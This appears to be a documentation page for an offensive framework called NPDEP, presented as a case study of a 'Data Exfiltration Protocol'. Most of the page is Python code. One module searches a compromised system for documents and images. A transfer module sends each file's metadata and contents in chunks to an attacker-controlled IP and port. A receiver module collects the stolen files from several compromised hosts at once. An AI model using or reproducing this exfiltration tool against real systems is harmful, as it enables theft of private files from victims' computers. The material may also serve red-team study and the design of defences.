

# Case Study: Data Exfiltration Protocol

[Start](../README.md)

- [Case Study: Data Exfiltration Protocol](#case-study-data-exfiltration-protocol)
  - [Introduction](#introduction)
  - [Sourcing Module](#sourcing-module)
  - [Transfer Module](#transfer-module)
  - [Receiver Module](#receiver-module)
  - [Configuration](#configuration)

## Introduction

Please read the documentation on [Architecture](./architecture.md), [Client](./client.md) and [Server](./server.md) before starting with this case study.

Consider the following scenario where files that could be useful for an attacker are to be identified on `Compromised System`. These files are to be split up and transferred to `Attacker System`.



How can data exfiltration be realized by using NPDEP? What is important when transferring data? What characteristics should a protocol have that is specially developed for data exfiltration via the network?

## Sourcing Module

To identify files of interest on a system, its file system must be searched. The following source code shows one possible implementation:

```python
class Search():
    def __init__(self, fileTypes=[]) -> None:
        self.__fileTypes = fileTypes
        self.__files = []

    def getFilePaths(self, path):
        for dirPath, dirNames, fileNames in os.walk(path,topdown=True):
                for fileName in fileNames:
                    for fileType in self.__fileTypes:
                        if fileName.endswith("." + fileType):
                            filePath = os.path.join(dirPath, fileName)
                            self.__files.append(filePath)
            
        return self.__files
```
The listing shows the class `Search`, which accepts a list of `fileTypes` and searches for these in the path also provided.

```python
s = Search(["pdf","txt", "jpg", "png"])
filePaths = s.getFilePaths("path/to/files")
```
The listing shows the handover of the list `["pdf", "txt", "jpg", "png"]` to search for these files in the path `path/to/files`. The result is also a list of file paths if one of the specified file extensions is found.

In order to ensure maximum flexibility, this code is not implemented directly in a sourcing module, but is combined in a Python package so that it can be installed via pip. The following listing shows the implementation of the `FoiModule` with the dependency `foi`, which in turn implements the file identification capability described above.

```py

from foi.search.Search import Search as FoiSearch

from npdep_common.interface.Interface import Interface

from npdep_sourcing.base.Sourcing import Sourcing

class FoiModule(Sourcing):
    def __init__(self, options, registration):
        super().__init__("FoiModule", options, registration)

    def init(self):
        pass

    def get(self):
        s = FoiSearch(self.options["files"])
        paths = s.getFilePaths(self.options["path"])
        return Interface.process(files=paths)
    
    def end(self):
        pass
```

The listing shows how `foi` is now used as a dependency in `FoiModule` and how the identified paths are passed to the transfer module in the `get` method.

## Transfer Module

How can files now be sent in adjustable units? In this regard, it must first be explained what a file consists of and how it is structured. Data is electronically stored information. This data is represented by bytes. In order to save a specific file, these bytes are arranged and saved in a specific order. This is referred to as a file format. A file can consist of a large number of bytes, which are need to be transmitted over the network when this file shall be transfered.

Further characteristics of a file are described in the metadata. Metadata is information that describes the file itself, but is not part of the file format. This metadata includes, for example, the file path, the file size or the timestamp of the file changes.

The file path plays an important role with regard to data exfiltration. This path describes the storage location on the compromised system and can contain important information about the context of the file. If you think about the exfiltration of a large amount of files, it quickly becomes clear that it makes no sense to simply transfer and save the respective file. In this respect, a storage structure must be created. This structure could consist of transferring the original path of the file on the compromised system to the server in order to also save the file on the server under its original path.

With this knowledge, we will now introduce the Data Exfiltration Protocol (DEP), which enables the transfer of files in adjustable units and their metadata using four special protocol messages based on TCP:

[Data Exfiltration Protocol Specification](./dep.md)

In order to remain just as flexible here, DEP is not implemented directly in a transfer module but is realized by a Python package that can be integrated into a transfer module as a dependency. The following listing shows how `dep-client` is used as a dependency in the transfer module `DepFileExfiltration`:

```python
import os
import time

from dep_client.client.Client import Client as DEPClient
from dep_client.util.Util import Util as DEPClientUtil
from dep_common.converter.Converter import Converter as DEPConverter
from dep_common.hash.Hash import Hash as HashCalc

from npdep_transfer.base.Transfer import Transfer

'''
Transfers files through the Use of Data Exfiltration Protocol (DEP)
'''
class DepFileExfiltration(Transfer):
    def __init__(self, options, registration) -> None:
        super().__init__("DepFileExfiltration", options, registration)
        self.client = DEPClient(options["ip"], options["port"], options["pkgSize"])

    def init(self):
        b_uuid = DEPConverter.uuidToBytes(self.registration.id)
        # Compromised system is registered at the server
        self.client.sendSystemInformationMessage(b_uuid)

    def send(self, container):
        b_uuid = DEPConverter.uuidToBytes(self.registration.id)
        # Check for files
        for path in container["files"]:
            # Get the file size of the file
            fileSize = os.path.getsize(path)
            # Generate sha256 hash of the file
            b_sha256 = HashCalc.getSha256Hash(path)
            # Send metadata of the file to the server
            self.client.sendDataInformationMessage(b_uuid, b_sha256, path, fileSize)
            time.sleep(.8) # This sleep is necessary to realize smooth data sending
            # From now on, the file will be read in chunks to be transfered to the server
            DEPClientUtil.sendFileWithDataContentMessage(self.client, self.options["ip"], self.options["port"], self.options["pkgSize"], path, b_uuid, b_sha256)
            print(path + " exfiltrated!")
```

In the `Creation` phase, the `__init__` method is used to create an instance of the DEPClient, which enables the transmission of data via the DEP messages. In this respect, the `SystemInformationMessage` message is transmitted to the attacker system in the `Initialization` phase using the `init` method.

The actual transfer takes place in the `send` method, which represents the `transfer` phase. The `container` parameter contains the `files` list, which contains the file paths of the files to be exfiltrated on the compromised system.

For each of these files, the necessary metadata is collected in order to transmit a `DataInformationMessage` to the attacker system. This is followed by the transmission of the respective file by sending multiple `DataContentMessages`. 

In this case, no use is made of the `DataAcknowledgeMessage`. The data should be transmitted without being checked on the attacker system.

## Receiver Module

How does the receiving of these messages work on the attacker side? In this regard, the following listing shows the implementation of the `DepReceiver` receiver module:

```py
import socket
from threading import *

from npdep_receiver.receiver.base.Receiver import Receiver
from npdep_receiver.receiver.module.dep.DepMessageProcessor import DepMessageProcessor

class DepReceiver(Receiver):
    def __init__(self, options, logger):
        super().__init__("DepReceiver", options, logger)
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.thread = Thread(target=self.handle)
        self.systemInfoMessages = []
        self.dataInfoMessages = []
        
    def start(self):
        self.socket.bind((self.options["ip"], self.options["port"]))                  
        self.socket.listen(5)
        self.thread.start()
                
    def handle(self):  
        self.logger.log(self.id + " started listening") 
        while self.isRunning:
            connection, address = self.socket.accept()
            self.logger.log(self.id + " accepted connection from: " + str(address)) 
            processor = DepMessageProcessor(self.options, connection, self)
            processor.start()
            self.logger.log(self.id + " started processing from: " + str(address)) 
```
It is obvious that the message processing is shifted to a separate thread here, so that the simultaneous connection and associated data transmission of several compromised systems is possible. The processing of the respective message is carried out by the `DepMessageProcessor`, which also starts its own process so as not to block the receiving thread.

## Configuration

You can find more about configuration under [Usage](./usage.md).
 